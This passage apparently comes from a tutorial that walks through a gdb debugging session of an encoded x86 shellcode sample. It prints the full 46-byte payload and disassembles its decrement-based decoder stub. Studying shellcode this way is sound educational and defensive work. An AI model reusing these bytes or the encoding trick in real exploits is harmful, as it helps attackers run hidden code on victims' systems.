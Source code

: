 And if I now look at contents of `eax` register

```
(gdb) print/x $eax
$2 = 0x804a040
```

you would notice that this is really nothing but the address of the
location where shellcode is loaded

```
(gdb) x/46xb 0x804a040
0x804a040 <code>:	0xeb	0x12	0x31	0xc9	0x5e	0x56	0x5f	0xb1
0x804a048 <code+8>:	0x15	0x8a	0x06	0xfe	0xc8	0x88	0x06	0x46
0x804a050 <code+16>:	0xe2	0xf7	0xff	0xe7	0xe8	0xe9	0xff	0xff
0x804a058 <code+24>:	0xff	0x32	0xc1	0x32	0xca	0x52	0x69	0x30
0x804a060 <code+32>:	0x74	0x69	0x01	0x69	0x30	0x63	0x6a	0x6f
0x804a068 <code+40>:	0x8a	0xe4	0xb1	0x0c	0xce	0x81
```

So which means `call eax` now would end up calling our shellcode. Let
me setup breakpoint at this place.

```
(gdb) break *0x804a040
(gdb) c
```

```
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0804a040 <+0>:	jmp    0x804a054 <code+20>
   0x0804a042 <+2>:	xor    ecx,ecx
   0x0804a044 <+4>:	pop    esi
   0x0804a045 <+5>:	push   esi
   0x0804a046 <+6>:	pop    edi
   0x0804a047 <+7>:	mov    cl,0x15
   0x0804a049 <+9>:	mov    al,BYTE PTR [esi]
   0x0804a04b <+11>:	dec    al
   0x0804a04d <+13>:	mov    BYTE PTR [esi],al
   0x0804a04f <+15>:	inc    esi
   0x0804a050 <+16>:	loop   0x804a049 <code+9>
   0x0804a052 <+18>:	jmp    edi
   0x0804a054 <+20>:	call   0x804a042 <code+2>
   0x0804a059 <+25>:	xor    al,cl
   0x0804a05b <+27>:	xor    cl,dl
   0x0804a05d <+29>:	push   edx
   0x0804a05e <+30>:	imul   esi,DWORD PTR [eax],0x69016974
   0x0804a064 <+36>:	xor    BYTE PTR [ebx+0x6a],ah
   0x0804a067 <+39>:	outs   dx,DWORD PTR ds:[esi]
   0x0804a068 <+40>:	mov    ah,ah
   0x0804a06a <+42>:	mov    cl,0xc
   0x0804a06c <+44>:	into   
   0x0804a06d <+45>:	add    DWORD PTR [eax],0x0
End of assembler dump.
```
